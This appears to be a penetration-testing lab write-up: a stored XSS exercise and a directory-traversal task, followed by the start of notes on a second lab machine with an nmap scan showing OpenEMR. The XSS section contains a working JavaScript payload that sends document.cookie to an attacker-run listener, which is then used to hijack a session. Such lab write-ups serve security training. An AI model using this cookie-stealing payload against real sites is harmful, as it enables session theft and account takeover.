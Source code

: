 #### Stored XSS
new Image().src="http://192.168.118.142:8000/evil.php?output="+document.cookie

To begin this we are given a page where we can post a message to be stored somewhere.

![StoredXSSstartpage](https://i.imgur.com/mroEfXD.png)

- We can post to this page by submitting with text in the box

![MessageSubmit](https://i.imgur.com/XQPwqN7.png)

- Now its time to see if we can get popups to work. (Earlier on this machine I set a cookie up, originally nothing was displayed, it was just used for debugging)

![popup](https://i.imgur.com/qQsoGy2.png)

- Time to spin up a python server to take the redirects we will set up

![PythonServer](https://i.imgur.com/9iGjGSY.png)

- When we try to use an image source to redirect the cookie to, we see that the server doesn't pick this up. We need to use 'new' to be able to read the cookie.

![SessionToken](https://i.imgur.com/AdVB92b.png)

- Now we have the session token, we can become that user.

----
#### File Includes

##### Directory Traversal

For this task we are given a set of options that when selected and run allow us to input some traversal commands in the URL.

After putting many in and discovering that traversal was possible, it was just a case of putting the file name:

![DirTrav](https://i.imgur.com/nHslM7S.png)

----
# Machine 2

245ST2_Notes.md

IP ADDRESS: 192.168.119.132

NMap Scan:

~~~term
┌──(user㉿kali)-[~]
└─$ nmap -sVC -T4 -p- 192.168.118.132
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-07 13:06 BST
Nmap scan report for 192.168.118.132
Host is up (0.00031s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f5:f2:1d:64:04:1b:fd:92:22:7e:6b:71:b7:f4:72:49 (RSA)
|   256 4b:80:f8:74:c0:8d:aa:40:fc:38:02:16:9f:1c:3b:bd (ECDSA)
|_  256 a8:08:e5:35:12:d6:a4:cc:74:8f:4c:9c:02:62:f4:f1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: OpenEMR Login
|_Requested resource was interface/login/login.php?site=default
~~~